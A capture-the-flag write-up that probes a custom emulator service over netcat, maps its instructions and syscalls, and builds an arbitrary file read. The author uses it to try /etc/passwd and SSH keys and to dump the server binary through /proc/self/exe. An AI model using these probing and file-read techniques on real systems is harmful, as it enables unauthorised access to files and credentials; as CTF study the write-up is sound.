


# Credits

I had a great time reversing this black box challenge and getting a shell going. Thank you [b0bb](https://twitter.com/0xb0bb) for creating this challenge!

This follows the challenge from December 16th, VMas.

# Table of contents
1. [Starting off](#starting-off)
2. [Approaching the black box](#approaching-the-black-box)
3. [Understanding internal state](#understanding-internal-state)
4. [Exploring syscalls](#exploring-syscalls)
5. [Connecting the pieces](#connecting-the-pieces)
6. [Gaining a foothold](#gaining-a-foothold)
7. [Reversing the binary](#reversing-the-binary)
   1. [Aside: what's in `boot.bin`](#aside-whats-in-bootbin)
8. [Continued: reversing the binary](#continued-reversing-the-binary)
9. [Getting a shell](#getting-a-shell)

## Starting off

We're given the following prompt to start off:

```
I was gonna give you all a flag for Christmas but the Grinch took them and put
them in a blackbox. Find a way to get them out.

Note:
The flag is in a non-standard location, so either git gud at guessing (boo) or
pop a shell like the Christmas hacker you are.
```

In addition, we're given the following command to run:

```console
nc vmas.advent2021.overthewire.org 1216
```

Upon connection, we see the following prompt (where we're able to provide an input after "code"):

```console
$ nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:

```

From this and the challenge description, it sounds like we'll be able to provide code (what we're able to input) that we'll use to exploit this black box system.

## Approaching the black box

So we've got a black box -- what are we to do? Let's start throwing some random inputs at the connection and see what sticks.

In order to have greater control over the inputs we send, I switched to `printf` to generate them more precisely.

Here is what my initial process ended up looking like:

<details>
<summary>Guessing instruction length</summary>

```console
$ printf "\xcc" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: Invalid instruction detected at 0x00

$ printf "\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: Invalid register detected at 0x00

$ printf "\x01\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: Invalid register detected at 0x00

$ printf "\x01\x01\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: SEGFAULT detected at 0xff

$ printf "\x01\x01\x01\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: Invalid register detected at 0x01
```
</details>

<br />

After a handful of inputs, it appears that three bytes controls a single instruction.
We can't be quite sure about this, but we continue on:

<details>
<summary>Guessing valid instructions</summary>

```console
$ printf "\x02\x01\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: SEGFAULT detected at 0xff

$ printf "\x03\x01\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: Invalid instruction detected at 0x00

$ printf "\x04\x01\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: SEGFAULT detected at 0xff

$ printf "\x05\x01\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: Invalid instruction detected at 0x00

$ printf "\x08\x01\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: SEGFAULT detected at 0xff
```
</details>

<br />

Based on these guesses, it appears instructions have one bit set (from above: 0x01, 0x02, 0x04, and 0x08 are all valid).

Doing the same for bytes one and two, we can see that appear to be semi-related to registers that _also_ corresponding to individual bits.

We find two interesting instructions that'll be useful later.

<details>
<summary>Finding the debug and syscall instructions</summary>

```console
$ printf "\x10\x01\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: SEGFAULT detected at 0xff

$ printf "\x20\x01\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: SEGFAULT detected at 0xff

$ printf "\x40\x01\x01" | nc vmas.advent2021.overthewire.org 1216 | head -n 40
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
-------- [DEBUG] --------

reg:
        a:     00     b:     00     c:     00
        d:     00     f:     00     pc:    00

mem:
        0x00:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x10:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x20:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x30:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x40:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x50:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x60:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x70:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x80:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x90:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xa0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xb0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xc0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xd0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xe0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xf0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

-------- [DEBUG] --------

$ printf "\x80\x01\x01" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
oops: SYS_open() -> "" does not exist
oops: SEGFAULT detected at 0xff
```

</details>

<br />

After we continue iterating through all the bit patterns for instructions, we find debug instruction that dumps some sort of emulator state.
In addition, we find that we have access to syscalls.
These will be really helpful in solving the challenge!

## Understanding internal state

Recapping what we've learned so far:
- We can send code / instructions to the black box we're connecting to
- This code is run in some sort of emulator
- Instructions in this emulator are three bytes long
  - The first byte corresponding to the _type_ of instruction
  - The second and third byte seem to correspond to registers
- The instruction 0x40 dumps debug information

Looking further at the debug information, we find:
- Six registers
  - One program counter and five other registers (most likely general purpose)
  - Internal working memory (256 bytes)
  - Everything is one byte in length

This leads us to assume this is a custom architecture.

```
-------- [DEBUG] --------

reg:
        a:     00     b:     00     c:     00
        d:     00     f:     00     pc:    00

mem:
        0x00:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x10:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x20:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x30:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x40:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x50:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x60:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x70:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x80:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x90:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xa0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xb0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xc0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xd0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xe0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xf0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

## Exploring syscalls

Looking back, we can see that an instruction starting with 0x80 corresponds to a syscall.
Playing a bit with the instruction, we find that the third byte corresponds to a syscall and we end up with the following syscall table:
- 0x01: open
- 0x02: read
- 0x04: write
- 0x08: sendfile
- 0x10: close

We'll assume for now that these syscalls follow similar inputs to [x86-64 syscalls on Linux](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit).

## Connecting the pieces

We've got a lot of building blocks to start playing with, so let's combine them.

We're able to easily confirm that the debug instruction toggles debugging, so we can turn off unnecessary output, e.g.:

```console
$ printf "\x40\x00\x00\x01\x01\x01\x40\x00\x00" | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀

code:
-------- [DEBUG] --------

reg:
        a:     00     b:     00     c:     00
        d:     00     f:     00     pc:    00

mem:
        0x00:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x10:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x20:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x30:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x40:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x50:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x60:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x70:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x80:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x90:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xa0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xb0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xc0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xd0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xe0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xf0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

-------- [DEBUG] --------

reg:
        a:     01     b:     00     c:     00
        d:     00     f:     00     pc:    01

mem:
        0x00:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x10:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x20:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x30:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x40:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x50:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x60:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x70:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x80:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0x90:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xa0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xb0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xc0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xd0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xe0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
        0xf0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

oops: SEGFAULT detected at 0xff
```

In addition, we can use debugging to determine what instructions correspond to.
We end up with the following mappings:
- 0x01: mov
- 0x02: add
- 0x04: store
- 0x08: load
- 0x10: compare
  - Register `f` appears to be for flags -- makes sense now why register `e` doesn't exist
- 0x20: jump
- 0x40: debug (already known)
- 0x80: syscall (already known)

We also find that there appears to be a maximum input size of 255.
Anything over 255 no longer returns a message like what we've seen previously.

```console
$ python -c 'print("\x01"*256)' | nc vmas.advent2021.overthewire.org 1216
 OverTheWire Advent CTF 2021 The Grinch presents:
 ▄███   ▄███ ▄███▄   ▄▄███ ▄▄████████▄ ▄▄█████████
 ████   ████ ██████▄██████ ████▀▀▀████ ████▀▀▀▀▀▀▀
 ████   ████ ████▀███▀████ ████▄▄▄████ ████▄▄▄▄▄▄
 ████  ▄████ ████ ▀▀▀ ████ ████▀▀▀████ ▀▀▀▀▀▀▀████
 ████▄█████▀ ████     ████ ████   ████ ▄▄▄▄▄▄▄████
 ████████▀▀  ████     ████ ████   ████ ██████████▀
 ▀▀▀▀▀▀▀▀    ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀
 ```

Lastly, we can combine the various commands we have to gain an arbitrary read command of any file on the system (provided we have acces).
This is done by writing a file name into the emulator state, opening up a file with that name, then using `sendfile` to send its contents back over the socket.
This will allow for easier reconnaissance of the system.

## Gaining a foothold

At this point, we switch to programmatic payload generation (via a [python script](exploit.py)) to help us with exploit development.

There are a lot of different ways that we could _potentially_ get access, so we try out a few.
1. Maybe the flag is just lying around and we don't need access
   - This doesn't seem super plausible given the challenge description. Indeed we don't find anything easily here.
2. A ping scan of the host reveals an SSH server. Maybe we can read the an SSH key and login.
   - We don't find anything easily here.
3. Find some file on the system that helps us out.
   - We strike out here in a **lot** of areas (e.g. `/etc/passwd`, `/dev/tcp/<host>/<port>`, and more)
   - Eventually, we recall the `/proc` filesystem and leverage `/proc/self/exe` to read the currently running binary

We can use [this binary (warning: binary file)](binaries/server) to help understand how the challenge works and how we can exploit it!

## Reversing the binary

Luckily for us, the binary is unstripped.
(Note: since the binary is unstripped, reversing details may be a bit lighter.)

```console
$ file binaries/server
binaries/server: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ead616605af40f6759eb9aa873bd554828394627, for GNU/Linux 3.2.0, not stripped
```

Pulling up the binary in Ghidra, we find a `main` that does a few things:
1. Initializes the emulator state
   - Boot code is written to 0x0b007000
   - Emulator code is written to 0x0c0de000
2. Sends the connection banner in memory
3. Loads a "boot" file (from `./boot.bin`)
4. Starts running the emulation loop (in `vis_reset`)

<details>
<summary>main disassembly</summary>



</details>

<details>
<summary>vis_reset disassembly</summary>

We are also able to convert the `state` variable into the relevant registers that are being used.



</details>

<br />

### Aside: what's in `boot.bin`?

Pulling up `boot.bin` in Ghidra as a flat binary shows us a few things, namely:
- Writes the banner to the connection socket (i.e. what we see)
- Reads into the code section (i.e. 0x0c0de000) from the socket
- Jumps to RDI (provided from emulator code)

Code for `boot.bin` can be found [here (warning: binary file)](binaries/boot.bin).

<details>
<summary>Boot code</summary>


</details>

## Continued: reversing the binary

Digging further into step 4 (i.e. the emulation loop), we find:
1. State variable initialization (flags, debug & supervisor modes, and code & memory)
2. Sets up RDI to the `loop` function
   - `loop` reads values from the "code" that was read in `boot.bin`
   - Runs the instruction in `inst`
   - If debugging is enabled, outputs debug information
